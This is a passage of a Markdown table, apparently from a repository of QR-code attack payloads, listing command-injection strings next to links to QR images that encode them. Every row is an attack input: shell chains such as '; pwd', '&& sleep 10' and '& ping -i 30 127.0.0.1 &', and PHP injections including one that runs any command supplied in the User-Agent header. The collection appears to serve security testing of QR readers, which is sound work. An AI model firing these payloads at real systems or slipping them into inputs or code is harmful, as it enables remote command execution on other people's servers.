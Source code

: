 | `<?php system("sleep 5");?>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/309.png) |
| `:phpversion();` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/310.png) |
| ``ping 127.0.0.1`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/311.png) |
| `& ping -i 30 127.0.0.1 &` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/312.png) |
| `& ping -n 30 127.0.0.1 &` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/313.png) |
| `;${@print(md5(RCEVulnerable))};` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/314.png) |
| `${@print("RCEVulnerable")}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/315.png) |
| `${@print(system($_SERVER['HTTP_USER_AGENT']))}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/316.png) |
| `pwd` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/317.png) |
| `\| pwd` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/318.png) |
| `; pwd` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/319.png) |
| `& pwd` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/320.png) |
| `&& pwd` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/321.png) |
| `\r` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/322.png) |
| `\r\n` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/323.png) |
| `route` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/324.png) |
| `\| sleep 1` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/325.png) |
| `; sleep 1` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/326.png) |
| `& sleep 1` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/327.png) |
| `&& sleep 1` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/328.png) |
| `sleep 1` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/329.png) |
| `\|\| sleep 10` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/330.png) |
| `\| sleep 10` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/331.png) |
| `; sleep 10` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/332.png) |
| `{${sleep(10)}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/333.png) |
| `& sleep 10` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/334.png) |
| `&& sleep 10` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/335.png) |
| `sleep 10` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/336.png) |
| `\|\| sleep 15` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/337.png) |
| `\| sleep 15` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/338.png) |
| `; sleep 15` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/339.png) |
| `& sleep 15` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/340.png) |
| `&& sleep 15` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/341.png) |
| `{${sleep(20)}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/342.png) |
| `{${sleep(20)}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/343.png) |
| `{${sleep(3)}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/344.png) |
| `{${sleep(3)}}` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/command-injection/data/345.png) |